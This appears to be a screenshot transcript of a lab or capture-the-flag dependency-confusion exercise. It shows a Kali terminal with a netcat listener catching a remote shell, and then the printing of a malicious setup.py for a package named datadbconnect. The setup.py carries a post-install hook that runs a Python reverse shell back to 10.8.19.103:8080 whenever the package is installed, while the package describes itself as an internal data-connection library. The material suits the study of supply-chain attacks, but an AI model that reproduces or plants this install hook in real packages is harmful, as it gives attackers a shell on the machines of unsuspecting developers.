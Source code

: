 ```

┌──(witty㉿kali)-[~/Downloads]
└─$ pip3 uninstall datadbconnect

Found existing installation: datadbconnect 9000.0.2
Uninstalling datadbconnect-9000.0.2:
  Would remove:
    /home/witty/.local/lib/python3.11/site-packages/datadbconnect-9000.0.2.dist-info/*
Proceed (Y/n)? Y
  Successfully uninstalled datadbconnect-9000.0.2


┌──(witty㉿kali)-[~/Downloads/confusion_dependency]
└─$ rlwrap nc -lvnp 8080
listening on [any] 8080 ...
connect to [10.8.19.103] from (UNKNOWN) [10.10.68.245] 55166
/bin/sh: 0: can't access tty; job control turned off
# ls
PKG-INFO
build
datadbconnect.egg-info
pip-delete-this-directory.txt
pip-egg-info
setup.cfg
setup.py
# cat pip-delete-this-directory.txt
This file is placed here by pip to indicate the source was put
here by pip.

Once this package is successfully installed this source code will be
deleted (unless you remove this file).
# cat setup.py
from setuptools import find_packages
from setuptools import setup
from setuptools.command.install import install
import os
import sys

VERSION = 'v9000.0.2'

class PostInstallCommand(install):
     def run(self):
         install.run(self)
         print ("Hello World from installer, this proves our injection works")
         os.system('python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.19.103",8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])\'')

setup(
        name='datadbconnect',
        url='https://github.com/labs/datadbconnect/',
        download_url='https://github.com/labs/datadbconnect/archive/{}.tar.gz'.format(VERSION),
        author='Tinus Green',
        author_email='tinus@notmyrealemail.com',
        version=VERSION,
        packages=find_packages(),
        include_package_data=True,
        license='MIT',
        description=('''Dataset Connection Package '''
                  '''that can be used internally to connect to data sources '''),
        cmdclass={
            'install': PostInstallCommand
        },
```